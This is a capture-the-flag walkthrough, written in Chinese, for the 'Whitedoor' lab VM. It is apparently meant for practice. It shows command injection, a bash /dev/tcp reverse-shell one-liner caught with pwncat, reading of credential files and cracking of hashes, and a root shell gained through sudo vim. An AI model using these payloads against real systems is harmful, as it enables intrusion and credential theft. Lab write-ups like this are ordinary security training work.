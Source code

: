 # Whitedoor

:::note

[Linux VM] [Tested on VirtualBox] created by || Pylon

⏲️ Release Date // 2023-12-15

✔️ MD5 // ceb6b1e724bb1eb201f0a1fff4b3f5d1

☠ Root // 85

💀 User // 86

📝Notes //
Enjoy it.

:::

## 靶机启动

靶机 IP：

```plaintext
192.168.56.123
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.123
Host is up (0.00051s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              13 Nov 16 22:40 README.txt
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey:
|   256 3d:85:a2:89:a9:c5:45:d0:1f:ed:3f:45:87:9d:71:a6 (ECDSA)
|_  256 07:e8:c5:28:5e:84:a7:b6:bb:d5:1d:2f:d8:92:6b:a6 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Home
|_http-server-header: Apache/2.4.57 (Debian)
```

## FTP Anonymous

```plaintext title="ls -lah"
ftp> ls -lah
229 Entering Extended Passive Mode (|||33680|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        110          4096 Nov 16 22:40 .
drwxr-xr-x    2 0        110          4096 Nov 16 22:40 ..
-rw-r--r--    1 0        0              13 Nov 16 22:40 README.txt
```

```plaintext title="README.txt"
¡Good luck!
```

## web 服务

经过简单探测，发现可以实现命令执行

```plaintext title="ls;a"
blackdoor.webp
blackindex.php
index.php
whitedoor.jpg
```

尝试构建反弹 shell

```plaintext
SEND: ls;echo "bash -i >& /dev/tcp/192.168.56.102/9999 0>&1" > /tmp/shell.sh
SEND: ls /tmp
RECV: shell.sh
SEND: ls;chmod 777 /tmp/shell.sh
SEND: ls;bash /tmp/shell.sh
```

成功收到反弹的 shell

```bash
┌─[randark@parrot]─[~/tmp]
└──╼ $pwncat-cs -lp 9999
[23:40:11] Welcome to pwncat 🐈!                                                                                                                                                                 __main__.py:164
[23:48:18] received connection from 192.168.56.123:33966                                                                                                                                              bind.py:84
[23:48:19] 192.168.56.123:33966: registered new host w/ db                                                                                                                                        manager.py:957
(local) pwncat$ back
(remote) www-data@whitedoor:/var/www/html$ whoami
www-data
```

## User - whiteshell

对用户进行探测，发现敏感凭据

```bash
(remote) www-data@whitedoor:/home/whiteshell/Desktop$ cat .my_secret_password.txt
whiteshell:VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K
```

尝试进行解码

```plaintext
VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K
Base64 decode --> VGgxc0lzVGgzUDRzU3dPckRibGFjNQo=
Base64 decode --> Th1sIsTh3P4sSwOrDblac5
```

尝试进行登录

```bash
(local) pwncat$ connect whiteshell@192.168.56.123
Password: **********************
[23:55:17] 192.168.56.123:22: normalizing shell path                                                                                                                                              manager.py:957
           192.168.56.123:22: loaded known host from db                                                                                                                                           manager.py:957
(local) pwncat$ back
(remote) whiteshell@whitedoor:/home/whiteshell$ whoami
whiteshell
```

## User - Gonzalo

对用户进行探测，发现敏感凭据

```bash
(remote) whiteshell@whitedoor:/home/Gonzalo/Desktop$ cat .my_secret_hash
$2y$10$CqtC7h0oOG5sir4oUFxkGuKzS561UFos6F7hL31Waj/Y48ZlAbQF6
```

尝试破解，得到

```plaintext
CqtC7h0oOG5sir4oUFxkGuKzS561UFos6F7hL31Waj --> qwertyuiop
```

尝试登陆

```bash
(local) pwncat$ connect Gonzalo@192.168.56.123
Password: **********
[00:00:14] 192.168.56.123:22: normalizing shell path                                                                                                                                              manager.py:957
[00:00:15] 192.168.56.123:22: loaded known host from db                                                                                                                                           manager.py:957
(local) pwncat$ back
(remote) Gonzalo@whitedoor:/home/Gonzalo$ whoami
Gonzalo
```

### flag - user

```bash
(remote) Gonzalo@whitedoor:/home/Gonzalo/Desktop$ cat user.txt
Y0uG3tTh3Us3RFl4g!!
```

## User - root

在 sudo 中，发现可以运行 vim

```plaintext title="sudo -l"
Matching Defaults entries for Gonzalo on whitedoor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User Gonzalo may run the following commands on whitedoor:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

参考 [vim | GTFOBins](https://gtfobins.github.io/gtfobins/vim/)

```bash
(remote) Gonzalo@whitedoor:/home/Gonzalo/Desktop$ sudo vim -c ':!/bin/sh'

# whoami
root
```

### flag - root

```bash
# cat root.txt
Y0uAr3Th3B3sTy0Ug3Tr0oT!!
```
